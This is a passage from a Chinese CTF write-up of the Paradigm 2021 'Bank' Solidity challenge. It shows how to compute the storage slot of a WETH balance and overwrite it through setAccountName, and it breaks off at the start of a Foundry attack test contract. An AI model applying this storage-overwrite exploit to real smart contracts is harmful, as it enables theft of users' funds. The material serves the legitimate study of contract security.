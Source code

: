 ```solidity
       }
    }
    function transferFrom(address, address, uint256) public returns(bool){return true;}
    function transfer(address, uint256) public returns(bool){return true;}
```

**2.找到位置，修改内容**

既然我们成功修改了数组大小为无穷，那么我们就可以修改Bank的所有内容，通过`setAccountName()`：

```solidity
    struct Account {
        string accountName;
        uint uniqueTokens;
        mapping(address => uint) balances;
    }
    
    mapping(address => Account[]) accounts;
    
    function setAccountName(uint accountId, string name) external {
        require(accountId < accounts[msg.sender].length, "setAccountName/invalid-account");
        
        accounts[msg.sender][accountId].accountName = name;
    }
```

我们只能修改accountName，我们需要找到我们在bank合约中记录WETH余额记录的位置，然后修改为50WETH，就可以取走50WETH了。但这是一个复杂的结构体，因此要找位置便有点麻烦。下面是找到第n个account对应WETH余额存储的位置：

- 找到Account[]长度的位置：`a = keccak256(bytes32(msg.sender)+bytes32(0x02)) `
- 找到第一个Account的初始位置：`b = keccak256(bytes32(a))`
- 找到第n个Account，即accountId为0：`c = keccak256(b) + 3*n`
- 找到第n个Account的WETH对应的余额：
  - `d = c + 2`
  - `e = keccak256(bytes32(WETH)+bytes32(d))`

找到第n个account对应WETH余额存储的位置`e`之后，因为我们的方法之后修改结构体的第一个参数，因此我们需要比较一下看看第n个account能不能刚好覆盖WETH余额的位置，如果不行，则换下一个account：

![](https://moe.photo/images/2023/08/18/paradigm2021bank.png)

找到刚好能够覆盖的account，则修改WETH余额，再withdraw那个account。

## 解题

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.0;

import "forge-std/Test.sol";
import "./interface.sol";
import "./setupBytecode.sol";

contract attackTest is Test {
    string constant WETH9_Artifact = 'out/helper_WETH9.sol/WETH9.json';

    IWETH9 public weth;
    ISetup public level;
    IBank public bank;
    uint256 public count01 = 0;
    uint256 public count02 = 0;
 
    function setUp() public payable{
        // 部署
        payable(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4).transfer(100 ether);
        vm.startBroadcast(address(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4));
```